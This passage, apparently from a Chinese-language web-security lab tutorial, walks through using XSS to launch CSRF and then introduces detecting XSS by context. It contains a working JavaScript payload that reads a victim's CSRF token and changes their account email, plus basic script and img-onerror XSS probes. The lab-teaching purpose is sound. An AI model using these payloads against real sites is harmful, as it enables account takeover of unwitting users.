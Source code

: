 ### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8XSS%E5%8F%91%E5%8A%A8CSRF"></a>配套靶场：利用XSS发动CSRF

首先我们利用提供的账号登录，然后找到修改邮箱的请求包，发现主体有两个参数email和csrf，所以我们需要构造payload获取csrf才能成功利用XSS发动CSRF，例如

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d3c8e1c52fb55d60.png)

```
&lt;script&gt;
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get','/email',true);
    req.send();
    function handleResponse() `{`
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', 'email/change-email', true);
        changeReq.send('csrf='+token+'&amp;email=test@test.com')
    `}`;
&lt;/script&gt;
```

当用户触发了这个XSS的时候就会发动CSRF修改邮箱为指定邮箱了，因为这道靶场修改邮箱不需要验证任何东西

[![](https://p1.ssl.qhimg.com/t015122f6f105ab4a40.png)](https://p1.ssl.qhimg.com/t015122f6f105ab4a40.png)

### <a class="reference-link" name="%E9%80%9A%E8%BF%87XSS%E4%B8%8A%E4%B8%8B%E6%96%87%E6%8E%A2%E6%B5%8B%E5%8F%8D%E5%B0%84%E5%9E%8B%E5%92%8C%E5%AD%98%E5%82%A8%E5%9E%8BXSS%E6%BC%8F%E6%B4%9E"></a>通过XSS上下文探测反射型和存储型XSS漏洞

为了探测反射型和存储型XSS漏洞，我们通常是在任何可以的入口点随便输入一个字符串，然后观察其反馈在响应中位置的上下文，基于不同情况的上下文可以选择不同种类的payload，这里burp提供了一个非常强大的[XSS payload宝典](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)。burp将上下文分为以下几种
- 在HTML标签中的XSS
- 在HTML标签属性中的XSS
- JS中的XSS
下面我们从以上三个小节来分别介绍

### <a class="reference-link" name="%E5%9C%A8HTML%E6%A0%87%E7%AD%BE%E4%B8%AD%E7%9A%84XSS"></a>在HTML标签中的XSS

这种上下文是最常见的，我们只需要引入一些可以执行JS的HTML标签即可，例如

```
&lt;script&gt;alert(document.domain)&lt;/script&gt;
&lt;img src=1 onerror=alert(1)&gt;
```

下面我们通过几道靶场来深入理解
